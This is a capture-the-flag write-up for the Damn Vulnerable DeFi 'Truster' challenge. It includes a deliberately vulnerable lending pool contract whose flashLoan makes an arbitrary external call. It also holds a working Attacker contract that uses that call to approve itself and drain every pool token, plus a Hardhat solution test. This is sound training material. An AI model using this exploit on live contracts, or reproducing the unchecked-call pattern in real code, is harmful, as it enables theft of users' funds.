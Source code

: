 # Truster

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

## Goal

Take all DVT tokens out of the pool (TrusterLenderPool) in a single transaction.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

In order to pass this challenge we need to call the flashLoan() function inside TrusterLenderPool from our Attacker contract.

The exploitable part of flashLoan() function is in the following line of code:

```
target.functionCall(data);
```

To be able to finish this CTF we will need to use abi encodin.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the TrusterLenderPool contract inside the Attacker contract
2. create executeFlashLoan(address player, address _token, uint245 amount) external function inside Attacker contract. This function will call flashLoan(uint256 amount, address borrower, address target, bytes calldata data) function from TrusterLenderPool with the following arguments:
  <ul>
  <li>amount will be all the tokens in the pool, 1000000*10^18</li>
  <li>borrower will be the address of the TrusterLenderPool   contract itself (the pool will be transferring the funds to   iteslf)</li>
  <li>target will be the address of the token contract</li>
  <li>data will be abi.encodeWithSignature("approve(address,  uint256)", address(this), amount), this will approve our   Attacker contract to spend the funds that belong to the pool on   their behalf</li>
  <li>create instance of the token</li>
  <li>call transferFrom() function from the token, we will be   transferring all of the tokens from the pool to our account   (player)</li>
  </ul>

## Attacker contract code

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import { TrusterLenderPool } from "./TrusterLenderPool.sol";

contract Attacker {
    TrusterLenderPool private immutable pool;

    constructor(TrusterLenderPool _pool) {
        pool = TrusterLenderPool(_pool);
    }

    function executeFlashLoan(address player, address _token, uint256 amount) external {
        pool.flashLoan(
            amount,
            address(pool),
            _token,
            abi.encodeWithSignature("approve(address,uint256)", address(this), amount)
        );

        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(address(pool), player, amount);
    }
}
```

## Solution code

```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Truster', function () {
    let deployer, player;
    let token, pool;

    const TOKENS_IN_POOL = 1000000n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        pool = await (await ethers.getContractFactory('TrusterLenderPool', deployer)).deploy(token.address);
        expect(await pool.token()).to.eq(token.address);

        await token.transfer(pool.address, TOKENS_IN_POOL);
        expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);

        expect(await token.balanceOf(player.address)).to.equal(0);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        attacker = await (await ethers.getContractFactory('Attacker', player)).deploy(pool.address);

        await attacker.executeFlashLoan(player.address, token.address, TOKENS_IN_POOL);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player has taken all tokens from the pool
        expect(
            await token.balanceOf(player.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await token.balanceOf(pool.address)
        ).to.equal(0);
    });
});
```